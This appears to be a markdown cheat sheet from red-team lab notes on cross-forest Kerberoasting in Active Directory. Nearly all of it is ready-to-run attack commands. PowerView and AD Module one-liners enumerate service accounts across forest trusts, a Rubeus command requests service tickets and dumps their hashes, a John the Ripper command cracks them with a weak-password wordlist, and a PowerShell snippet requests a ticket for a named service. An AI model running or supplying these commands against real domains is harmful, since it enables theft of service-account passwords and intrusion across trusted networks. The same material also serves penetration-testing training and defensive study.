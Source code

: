 # Cross Forest Attack - Kerberoast

- [Cross Forest Attack - Kerberoast](#cross-forest-attack---kerberoast)
  - [Cross Forest Kerberoasting](#cross-forest-kerberoasting)

<br/>

---

## Cross Forest Kerberoasting

It is possible to execute Kerberoast across Forest trusts. 

To enumerate named service accounts across forest trusts:

- PowerView

```
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```

- AD Module

```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

<br/>

To request a TGS:

```
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```

<br/>

To check for the TGS:

```
klist
```

<br/>

To crack the password used to encrypt the TGS:

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

<br/>

Request TGS across trust using PowerShell:

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```

